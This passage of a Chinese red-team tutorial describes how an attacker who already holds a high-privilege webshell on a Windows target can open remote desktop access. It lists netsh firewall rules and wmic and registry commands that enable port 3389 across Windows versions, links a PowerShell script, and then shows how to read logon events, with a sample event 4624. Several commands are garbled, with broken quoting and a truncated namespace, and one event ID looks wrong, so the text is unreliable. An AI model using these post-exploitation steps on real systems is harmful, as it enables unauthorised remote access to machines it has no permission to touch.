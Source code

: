 如果获取到目标高权限的 webshell 可以通过命令开启 3389

3.1
---

允许 3389 端口放行

```
netsh advfirewall firewall add rule name=”Remote Desktop” protocol=TCP dir=in localport=3389 action=allow
```

①：通用开 3389(优化后)：

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

②：For Win2003:

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal” “Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

③：For Win2008:

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal” “Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

④：For Every: cmd 开 3389 win08 win03 win7 win2012 winxp win08，三条命令即可:

```
wmic /namespace:\root\cimv2 erminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1  wmic /namespace:\root\cimv2 erminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

3.2
---

使用 [RegfDenyTSConnections.ps1] https://github.com/QAX-A-Team/EventLogMaster/blob/master/powershell/RegfDenyTSConnections.ps1 脚本

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibp0icCX25KT4HlVFMy6mgqs9FdqF3k0axiaPGcqOB0E1AXntQ9hfg7Z2Ww/640?wx_fmt=png)

0x04 获取登录日志
===========

在 windows 事件里面 id 为 4624 和 4635 分别为成功登录和失败登录

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibp2SflEzDQIPGAG3DPy31rPibic6Q3HY1C94eibt5ahZXIEsFebdLd3vjJw/640?wx_fmt=png)

这里看下 4624 的详情

```
已成功登录帐户。主题:    安全 ID:        SYSTEM        帐户名:        WIN-4BS4SH00L5N$    帐户域:        REDTEAM    登录 ID:        0x3e7登录类型:            10新登录:    安全 ID:        WIN-4BS4SH00L5N\test    帐户名:        test    帐户域:        WIN-4BS4SH00L5N    登录 ID:        0xfd71e    登录 GUID:        {00000000-0000-0000-0000-000000000000}进程信息:    进程 ID:        0xbcc    进程名:        C:\Windows\System32\winlogon.exe网络信息:    工作站名:    WIN-4BS4SH00L5N    源网络地址:    192.168.11.12    源端口:        63275详细身份验证信息:    登录进程:        User32     身份验证数据包:    Negotiate    传递服务:    -    数据包名(仅限 NTLM):    -    密钥长度:        0
```

